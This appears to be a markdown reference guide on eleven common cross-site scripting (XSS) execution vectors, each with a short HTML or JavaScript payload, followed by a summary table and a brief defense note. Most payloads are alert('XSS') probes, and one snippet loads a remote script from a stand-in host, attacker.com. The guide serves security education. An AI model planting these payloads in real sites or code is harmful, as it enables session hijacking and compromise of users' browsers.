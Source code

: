 # 🛑 Common JavaScript Execution Methods Used in XSS Attacks

Cross-Site Scripting (XSS) attacks aim to execute arbitrary JavaScript in the context of a victim’s browser. Attackers use various methods to inject and run malicious code, often exploiting injection points in HTML, attributes, URLs, and JS APIs.

Below are the most commonly abused vectors and techniques used during real-world XSS attacks:

---

## 1. `<img onerror="...">` — Attribute-Based Execution

Triggers when the image fails to load.

```html
<img src="x" onerror="alert('XSS')" />
```

---

## 2. `<script>` Injection

Copying and pasting the untrusted code in the browser's console.

```js
const s = document.createElement("script");
s.src = "http://attacker.com/script.js";
document.body.appendChild(s);
```

---

## 3. Inline Event Handlers (e.g., `onclick`, `onmouseover`)

```html
<div onclick="alert('XSS')">Click Me</div>
<a href="#" onmouseover="alert('XSS')">Hover Me</a>
```

---

## 4. `javascript:` URLs

Common in `href` attributes:

```html
<a href="javascript:alert('XSS')">Click</a>
```

---

## 5. `<iframe src="javascript:...">`

```html
<iframe src="javascript:alert('XSS')"></iframe>
```

---

## 6. DOM-Based XSS

The vulnerable code is in the frontend, like:

```js
document.body.innerHTML = location.hash;
```

URL: `https://example.com/#<img src=x onerror=alert('XSS')>`

---

## 7. `eval()` or `Function()` execution

Used when user input is passed directly into dangerous JS APIs:

```js
eval(userInput); // BAD
new Function(userInput)(); // BAD
```

---

## 8. `setTimeout("...", delay)` or `setInterval("...", interval)`

Attackers inject JS into the string form:

```js
setTimeout("alert('XSS')", 1000);
```

---

## 9. Malformed `<svg>` or `<math>` Tags

Some browsers allow script execution inside SVG with event handlers:

```html
<svg onload="alert('XSS')"></svg>
```

---

## 10. `<object>`, `<embed>`, and `<body onload>`

```html
<body onload="alert('XSS')">
  <object data="javascript:alert('XSS')"></object>
</body>
```

---

## 11. Script Injection via `<meta>` or malformed `<style>`

```html
<meta http-equiv="refresh" content="0;url=javascript:alert('XSS')" />
<style>
  @import 'javascript:alert("XSS")';
</style>
```

---

## 🚨 Summary Table

| Technique                    | Vector Type         | Notes                                           |
| ---------------------------- | ------------------- | ----------------------------------------------- |
| `<img onerror>`              | Attribute-based     | Very common, simple payload                     |
| `<script>` tag               | HTML injection      | Works if innerHTML is used unsafely             |
| Inline handlers              | HTML injection      | Works if tag attributes are not escaped         |
| `javascript:` URLs           | URI-based           | Often blocked by CSP in modern apps             |
| `eval`, `Function`           | JavaScript APIs     | Dangerous, should never be used with user input |
| `<svg onload>`               | SVG namespace       | Works in some browser contexts                  |
| `<iframe src="javascript:">` | Tag-based           | Often blocked by CSP                            |
| DOM-based injection          | Frontend logic flaw | Harder to detect in static scans                |

---

> ✅ Defense: Always sanitize user input, use CSP headers, avoid inline JS, and use trusted libraries like DOMPurify.
